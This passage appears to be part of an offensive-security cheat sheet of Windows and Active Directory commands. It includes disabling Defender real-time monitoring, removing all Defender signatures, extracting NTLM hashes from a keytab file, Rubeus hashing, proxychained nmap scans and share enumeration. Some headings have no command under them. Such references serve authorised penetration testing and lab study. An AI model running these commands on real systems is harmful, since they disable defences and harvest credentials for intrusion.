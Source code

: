
## Windows Defender

---

Disable defender realtime montoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Defender get detection history

Defender remove signatures

```powershell
MpCmdRun.exe -RemoveDefinitions -All
```

Defender settings

---

## Other

---

View current Integrity

Rubeus Password to hash

```plaintext
.\Rubeus.exe hash /password:lab
```

Run CMD as other usr

```plaintext
runas /user:administrator@d.com cmd
```

Nmap through Proxychains

```plaintext
proxychains nmap -sT -Pn 192.168.1.1
```

Get NTLM from krb5.keytab file

```plaintext
./keytabextract.py krb5.keytab
```

Search fileshares

```powershell
Invoke-ShareFinder -Verbose -Domain d
Find-DomainShare -CheckShareAccess
```

Find machines current user has local admin
